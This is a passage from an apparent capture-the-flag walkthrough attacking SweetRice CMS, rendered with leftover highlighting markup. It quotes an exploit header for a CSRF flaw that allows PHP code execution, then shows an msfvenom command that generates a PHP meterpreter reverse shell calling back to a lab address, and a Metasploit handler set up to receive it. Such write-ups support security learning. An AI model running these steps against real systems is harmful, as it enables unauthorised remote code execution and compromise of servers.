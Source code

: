 # <span class="hljs-keyword">In</span> SweetRice CMS Panel <span class="hljs-keyword">In</span> Adding Ads Section SweetRice Allow <span class="hljs-keyword">To</span> Admin <span class="hljs-keyword">Add</span>

PHP Codes <span class="hljs-keyword">In</span> Ads File

# A CSRF Vulnerabilty <span class="hljs-keyword">In</span> Adding Ads Section Allow <span class="hljs-keyword">To</span> Attacker <span class="hljs-keyword">To</span> Execute

PHP Codes <span class="hljs-keyword">On</span> Server .

# <span class="hljs-keyword">In</span> This Exploit I Just Added a echo <span class="hljs-string">'&lt;h1&gt; Hacked &lt;/h1&gt;'</span>; phpinfo();

Code You Can

Customize Exploit <span class="hljs-keyword">For</span> Your <span class="hljs-keyword">Self</span> .
</code></pre><hr>
<p><strong>Reverse Shell Payload Creation</strong>
Using msfvenom I create a php  meterpreter reverse shell </p>
<pre><code>msfvenom -p php/meterpreter_reverse_tcp LHOST=10.13.0.39 LPORT=4444 -f raw &gt; <span class="hljs-keyword">shell</span>.php
[-] <span class="hljs-keyword">No</span> platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] <span class="hljs-keyword">No</span> <span class="hljs-keyword">arch</span> selected, selecting <span class="hljs-keyword">arch</span>: php from the payload
<span class="hljs-keyword">No</span> encoder specified, outputting raw payload
Payload size: 34849 bytes
</code></pre><hr>
<p><strong>Starting Metasploit</strong></p>
<p>I  then start metasploit and the following commands. </p>
<pre><code>msfconsole -q                                                                         
[*] Starting persistent <span class="hljs-keyword">handler</span>(s)...
msf6 &gt; use exploit/multi/<span class="hljs-keyword">handler</span>
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/<span class="hljs-keyword">handler</span>) &gt; set payload php/meterpreter_reverse_tcp
payload =&gt; php/meterpreter_reverse_tcp
msf6 exploit(multi/<span class="hljs-keyword">handler</span>) &gt; set LHOST <span class="hljs-number">10.13</span><span class="hljs-number">.0</span><span class="hljs-number">.39</span>
LHOST =&gt; <span class="hljs-number">10.13</span><span class="hljs-number">.0</span><span class="hljs-number">.39</span>
msf6 exploit(multi/<span class="hljs-keyword">handler</span>) &gt; set LPORT <span class="hljs-number">4444</span>
LPORT =&gt; <span class="hljs-number">4444</span>
msf6 exploit(multi/<span class="hljs-keyword">handler</span>) &gt; run
